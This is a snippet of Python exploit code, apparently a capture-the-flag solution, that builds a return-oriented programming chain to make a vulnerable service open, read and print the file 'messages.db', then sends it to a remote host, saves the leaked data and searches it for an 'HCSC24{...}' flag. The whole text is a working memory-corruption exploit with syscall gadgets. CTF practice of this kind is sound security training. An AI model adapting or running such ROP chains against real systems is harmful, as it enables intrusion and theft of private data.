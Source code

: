 ```python
CONST_3 =             0x0000000000000003
CONST_LARGE =         0x0000000000003000

# 1/ open file
# open(pathname, flags)
# rax = 0x02, rdi = filename, rsi = flags
p += pack('<Q', POP_RSI_RET)
p += pack('<Q', CONST_0) # rsi = 0
p += pack('<Q', POP_RDI_RET)
p += pack('<Q', MESSAGESDB) # rdi = "messages.db"
p += pack('<Q', XOR_RAX_RAX_RET)
p += pack('<Q', POP_RAX_RET)
p += pack('<Q', CONST_2) # rax = 2
p += pack('<Q', SYSCALL) # syscall

# 2/ read(fd, addr, count)
# rax = 0x00, rdi = fd, rsi = writeable_buffer, rdx = count
p += pack('<Q', POP_RDX_POP_RBX_RET)
p += pack('<Q', CONST_LARGE) # rdx = 0x3000
p += pack('<Q', CONST_0)
p += pack('<Q', POP_RSI_RET)
p += pack('<Q', DATA_SECTION) # rsi = @ .data
p += pack('<Q', POP_RDI_RET)
p += pack('<Q', CONST_3) # rdi = 3 (our file descriptor will be most likely 3)
p += pack('<Q', POP_RAX_RET)
p += pack('<Q', CONST_0) # rax = 0
p += pack('<Q', SYSCALL)

# 3/ write(fd, addr, count) to STDOUT
# rax = 0x01, rdi = fd, rsi = writeable_buffer, rdx = count
p += pack('<Q', POP_RDX_POP_RBX_RET) # pop rdx ; pop rbx ; ret
p += pack('<Q', CONST_LARGE) # rdx = 0x3000
p += pack('<Q', CONST_0)
p += pack('<Q', POP_RSI_RET)
p += pack('<Q', DATA_SECTION) # rsi = @ .data
p += pack('<Q', POP_RDI_RET)
p += pack('<Q', CONST_1) # rdi = 1
p += pack('<Q', XOR_RAX_RAX_RET)
p += pack('<Q', POP_RAX_RET)
p += pack('<Q', CONST_1) # rax = 1
p += pack('<Q', SYSCALL)

c = remote('10.10.6.12', 10990)

c.sendlineafter('Enter your name: \n', p)
c.recvuntil('Fetching your message...\n')
dump = c.recvuntil('Segmentation fault')
open('messages.db', 'wb').write(dump)
m = re.search(b'HCSC24{.*}',dump)
if m is not None:
    print(m.group().decode())
```
